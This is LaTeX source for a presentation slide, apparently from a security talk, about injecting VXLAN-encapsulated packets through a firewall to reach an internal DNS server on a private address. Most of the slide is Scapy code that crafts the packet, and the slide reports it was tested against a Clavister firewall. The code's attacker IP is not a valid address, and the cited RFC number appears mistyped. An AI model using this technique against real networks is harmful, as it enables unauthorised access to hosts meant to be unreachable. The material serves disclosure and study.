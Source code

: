 \documentclass[Screen16to9,17pt,footrule]{foils}
\begin{document}

{\small Attacker can send UDP DNS request to inside server on RFC1918 destination - server has no external IP or incoming ports forwarded.\\
Tested working with Clavister with DNS UDP probes/requests, no inspection }



First create VXLAN header and inside packet
\begin{verbatim}
vxlanport=4789     # RFC 7384 port 4789, Linux kernel default 8472
vni=37             # Usually VNI == destination VLAN {\bf
vxlan=Ether(dst=routermac)/IP(src=vtepsrc,dst=vtepdst)/
   UDP(sport=vxlanport,dport=vxlanport)/VXLAN(vni=vni,flags="Instance")}

broadcastmac="ff:ff:ff:ff:ff:ff"
randommac="00:51:52:01:02:03"
attacker="185.27.115.666"
destination="10.0.0.10"
# port is the one we want to contact inside the firewall
insideport=53
# this port is a high port, just make this look like a normal request
testport=54040
packet=vxlan/Ether(dst=broadcastmac,src=randommac)/IP(src=attacker,
    dst=destination)/UDP(sport=testport,dport=insideport)/
    DNS(rd=1,id=0xdead,qd=DNSQR(qname="www.wikipedia.org"))
\end{verbatim}

{\small Fun fact, Unbound on OpenBSD reply to DNS requests received in Ethernet packets with broadcast destination and IP destination being the IP of the server - confirmed normal IP stack behaviour}


\end{document}
